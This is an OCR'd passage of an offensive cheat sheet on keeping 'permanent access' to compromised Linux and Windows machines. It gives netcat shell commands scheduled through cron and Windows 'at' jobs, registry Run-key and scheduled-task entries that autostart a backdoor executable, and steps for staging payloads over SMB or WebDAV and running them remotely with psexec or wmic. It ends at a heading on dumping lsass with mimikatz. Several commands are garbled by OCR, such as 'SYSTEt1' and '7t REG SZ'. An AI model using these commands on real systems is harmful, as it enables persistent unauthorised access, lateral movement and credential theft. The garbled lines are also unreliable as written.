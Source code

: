 ## Permanent access

### for Linux \(in the attacker's system\)

```text
crontab -e: set for every 10 min
0-59/10 nc ip 777 -e /bin/bash
```

### for Windows \(start task scheduler\)

```text
sc config schedule start = auto
net start schedule
at 13:30 "C:\nc.exe ip 777 -e cmd.exe""
```

### Running a backdoor along with bypassing the Windows firewall

```text
1. REG add HKEY CURRENT USER\Software\Microsoft\Windows\CurrentVersion\Run
    /v firewall 7t REG SZ /d "c:\windows\system32\backdoor.exe" /f
2. at 19:00 /every:M,T,W,Th,F cmd /c start "%USERPROFILE%\backdoor.exe"
3. SCHTASKS /Create /RU "SYSTEt1" /SC MINUTE /t10 45 /TN FIREWALL /TR
    "%USERPROFILE%\backdoor.exe" /ED 12/12/2012
```

### Payload development in smb or webdav

```text
Via SMB:
1. From the compromised machine, share the payload folder
2. Set sharing to 'Everyone'
3. Use psexec or wmic command to remotely execute payload

Via WebDAV:
1. Launch Metasploit 'webdav file server' module
2. Set the following options:
     localexe = true
     localfile= payload
     localroot= payload directory
     disablePayloadHandler=true
3. Use psexec or wmic command to remotely execute payload
     psexec \\ remote ip /u domain\compromised_user /p password "\\payload
     ip \test\msf.exe"

OR -
wmic /node: remote ip /user:domain\compromised user //password:password
process call create "\\ payload ip \test\msf.exe"
```

## Get lsass process and extract information with mimikatz
